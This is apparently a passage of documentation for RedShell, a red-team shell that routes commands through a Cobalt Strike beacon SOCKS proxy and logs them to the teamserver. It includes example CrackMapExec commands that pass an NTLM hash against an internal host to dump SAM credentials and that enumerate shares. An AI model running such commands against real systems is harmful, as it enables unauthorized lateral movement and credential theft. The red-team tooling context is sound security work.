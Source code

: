 Execute commands through the beacon socks proxy. These can be run in the context of the current user or via sudo. Specifying 'proxychains' in the command is optional. Commands are forced through proxychains. MITRE ATT&CK Tactic IDs are optional. 
```
RedShell> beacon_exec -h
usage: beacon_exec [-h] [-t TTP] ...

Execute a command through beacon socks proxy and simultaneously log it to the teamserver.

positional arguments:
  command            Command to execute through the proxy and log.

optional arguments:
  -h, --help         show this help message and exit
  -t TTP, --ttp TTP  MITRE ATT&CK Tactic IDs. Comma delimited to specify multiple.

example: 
beacon_exec -t T1550.002,T1003.002 cme smb 192.168.1.1 --local-auth -u Administrator -H C713B1D611657D0687A568122193F230 --sam
```
Example:

![alt text](./images/beacon_exec.png "Beacon Exec")

Note on the Redshell and CS install directory options - the script needs to know where it lives, as well as Cobalt Strike.
If stuff blows up, be sure to set the directories accordingly:
```
RedShell> set redshell_directory /opt/redshell
RedShell> set cs_directory /opt/cobaltstrike
```

## General
Note on passwords used in *exec commands: special characters in passwords may be interpreted as shell meta characters, which could cause commands to fail. To get around this, set the password option and then invoke with '$password'. Example:
```
RedShell> set password Test12345
password - was: ''
now: 'Test12345'
RedShell> beacon_exec cme smb 192.168.1.14 --local-auth -u administrator -p $password --shares
```

RedShell includes commands for navigating the file system:
```
RedShell> cd /opt/redshell/
RedShell> pwd
/opt/redshell
```

Additional commands can be run via the shell command or via the '!' shortcut:
```
RedShell> shell date
Mon 29 Jul 2019 05:33:02 PM MDT
RedShell> !date
Mon 29 Jul 2019 05:33:03 PM MDT
```
